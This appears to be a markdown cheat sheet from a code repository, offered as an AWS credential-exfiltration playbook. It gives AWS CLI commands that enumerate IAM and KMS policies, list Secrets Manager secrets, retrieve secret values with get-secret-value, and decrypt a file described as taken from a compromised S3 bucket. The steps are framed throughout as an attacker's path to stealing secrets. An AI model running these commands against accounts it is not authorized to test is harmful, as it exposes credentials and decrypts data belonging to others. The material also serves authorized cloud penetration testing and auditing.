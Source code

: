 # AWS Secrets Manager Credential Exfiltration

### If the user has access to Secret Manager, it can decrypt the secrets using the web, cli or API

#### 1) Listing policies attached to a user

    aws iam list-attached-user-policies --user-name NAME 

## Here we can see the permissions:

#### 2) Retrieving information about a specific version of policy

    aws iam get-policy-version --policy-arn ARN --version-id ID 

#### 3) Listing secrets stored by Secrets Manager

    aws secretsmanager list-secrets 

## Here we get the secret key ID to describe the secret

#### 4) Listing information about a specific secret

    aws secretsmanager describe-secret --secret-id NAME 

#### 5) Getting resource-based policy attached to a specific secret

    aws secretsmanager get-resource-policy --secret-id ID 

## Retrieves the actual value:

#### 6) Getting the secret value

    aws secretsmanager get-secret-value --secret-id ID 

# Key Management Service (KMS)

### If we compromised as an example an S3 with an encrypted file, we can decrypt it using the keys stored in KMS.

#### 7) Listing a specific key

    aws kms describe-key --key-id ID
   
## Here we can see who can access the key, the description of it and so on:

#### 8) Listing policies attached to a specified key

    aws kms list-key-policies --key-id ID 

## TIP: Run the previous command in all keys to see who can access it

#### 9) Listing full information about a policy

    aws kms get-key-policy --policy-name NAME --key-id ID 

#### 10) Decrypt the secret using the key

    aws kms decrypt --ciphertext-blob fileb://EncryptedFile --output text --query plaintext

### There is no need to specify the key information because this information is embedded in the encrypted file

